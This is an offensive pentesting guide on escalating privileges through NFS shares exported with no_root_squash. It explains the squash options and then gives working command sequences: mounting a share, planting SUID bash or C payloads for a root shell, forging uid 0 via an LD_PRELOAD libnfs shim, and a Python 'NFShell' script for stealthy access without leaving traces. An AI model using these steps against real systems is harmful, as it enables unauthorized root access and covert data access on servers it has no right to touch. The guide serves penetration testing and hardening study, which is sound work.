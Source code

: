 # NFS No Root Squash Misconfiguration Privilege Escalation



## Squashing Basic Info

NFS will usually (specially in linux) trust the indicated `uid` and `gid` by the client conencting to access the files (if kerberos is not used). However, there are some configurations that can be set in the server to **change this behavior**:

- **`all_squash`**: It squashes all accesses mapping every user and group to **`nobody`** (65534 unsigned / -2 signed). Therefore, everyone is `nobody` and no users are used.
- **`root_squash`/`no_all_squash`**: This is default on Linux and **only squashes access with uid 0 (root)**. Therefore, any `UID` and `GID` are trusted but `0` is squashed to `nobody` (so no root imperonation is possible).
- **``no_root_squash`**: This configuration if enabled doesn't even squash the root user. This means that if you mount a directory with this configuration you can access it as root.

In the **/etc/exports** file, if you find some directory that is configured as **no_root_squash**, then you can **access** it from **as a client** and **write inside** that directory **as** if you were the local **root** of the machine.

For more information about **NFS** check:

[[../../network-services-pentesting/nfs-service-pentesting.md]]

## Privilege Escalation

### Remote Exploit

Option 1 using bash:
- **Mounting that directory** in a client machine, and **as root copying** inside the mounted folder the **/bin/bash** binary and giving it **SUID** rights, and **executing from the victim** machine that bash binary.
    - Note that to be root inside the NFS share, **`no_root_squash`** must be configured in the server.
    - However, if not enabled, you could escalate to other user by copying the binary to the NFS share and giving it the SUID permission as the user you want to escalate to.

```bash
#Attacker, as root user
mkdir /tmp/pe
mount -t nfs <IP>:<SHARED_FOLDER> /tmp/pe
cd /tmp/pe
cp /bin/bash .
chmod +s bash

#Victim
cd <SHAREDD_FOLDER>
./bash -p #ROOT shell
```
```
Option 2 using c compiled code:
- **Mounting that directory** in a client machine, and **as root copying** inside the mounted folder our come compiled payload that will abuse the SUID permission, give to it **SUID** rights, and **execute from the victim** machine that binary (you can find here some[[payloads-to-execute.md#c)| C SUID payloads]].
    - Same restrictions as before

```bash
#Attacker, as root user
gcc payload.c -o payload
mkdir /tmp/pe
mount -t nfs <IP>:<SHARED_FOLDER> /tmp/pe
cd /tmp/pe
cp /tmp/payload .
chmod +s payload

#Victim
cd <SHAREDD_FOLDER>
./payload #ROOT shell
```
```
### Local Exploit

> [!TIP]
> Note that if you can create a **tunnel from your machine to the victim machine you can still use the Remote version to exploit this privilege escalation tunnelling the required ports**.\
> The following trick is in case the file `/etc/exports` **indicates an IP**. In this case you **won't be able to use** in any case the **remote exploit** and you will need to **abuse this trick**.\
> Another required requirement for the exploit to work is that **the export inside `/etc/export`** **must be using the `insecure` flag**.\
> --_I'm not sure that if `/etc/export` is indicating an IP address this trick will work_--

### Basic Information

The scenario involves exploiting a mounted NFS share on a local machine, leveraging a flaw in the NFSv3 specification which allows the client to specify its uid/gid, potentially enabling unauthorized access. The exploitation involves using [[https://github.com/sahlberg/libnfs|libnfs]], a library that allows for the forging of NFS RPC calls.

#### Compiling the Library

The library compilation steps might require adjustments based on the kernel version. In this specific case, the fallocate syscalls were commented out. The compilation process involves the following commands:

```bash
./bootstrap
./configure
make
gcc -fPIC -shared -o ld_nfs.so examples/ld_nfs.c -ldl -lnfs -I./include/ -L./lib/.libs/
```
```
#### Conducting the Exploit

The exploit involves creating a simple C program (`pwn.c`) that elevates privileges to root and then executing a shell. The program is compiled, and the resulting binary (`a.out`) is placed on the share with suid root, using `ld_nfs.so` to fake the uid in the RPC calls:

1. **Compile the exploit code:**

```bash
cat pwn.c
int main(void){setreuid(0,0); system("/bin/bash"); return 0;}
gcc pwn.c -o a.out
```
```
2. **Place the exploit on the share and modify its permissions by faking the uid:**

```bash
LD_NFS_UID=0 LD_LIBRARY_PATH=./lib/.libs/ LD_PRELOAD=./ld_nfs.so cp ../a.out nfs://nfs-server/nfs_root/
LD_NFS_UID=0 LD_LIBRARY_PATH=./lib/.libs/ LD_PRELOAD=./ld_nfs.so chown root: nfs://nfs-server/nfs_root/a.out
LD_NFS_UID=0 LD_LIBRARY_PATH=./lib/.libs/ LD_PRELOAD=./ld_nfs.so chmod o+rx nfs://nfs-server/nfs_root/a.out
LD_NFS_UID=0 LD_LIBRARY_PATH=./lib/.libs/ LD_PRELOAD=./ld_nfs.so chmod u+s nfs://nfs-server/nfs_root/a.out
```
```
3. **Execute the exploit to gain root privileges:**

```bash
/mnt/share/a.out
#root
```
```
### Bonus: NFShell for Stealthy File Access

Once root access is obtained, to interact with the NFS share without changing ownership (to avoid leaving traces), a Python script (nfsh.py) is used. This script adjusts the uid to match that of the file being accessed, allowing for interaction with files on the share without permission issues:

```python
#!/usr/bin/env python
# script from https://www.errno.fr/nfs_privesc.html
import sys
import os

def get_file_uid(filepath):
    try:
        uid = os.stat(filepath).st_uid
    except OSError as e:
        return get_file_uid(os.path.dirname(filepath))
    return uid

filepath = sys.argv[-1]
uid = get_file_uid(filepath)
os.setreuid(uid, uid)
os.system(' '.join(sys.argv[1:]))
```
```
Run like:

```bash
# ll ./mount/
drwxr-x---  6 1008 1009 1024 Apr  5  2017 9.3_old
```
```


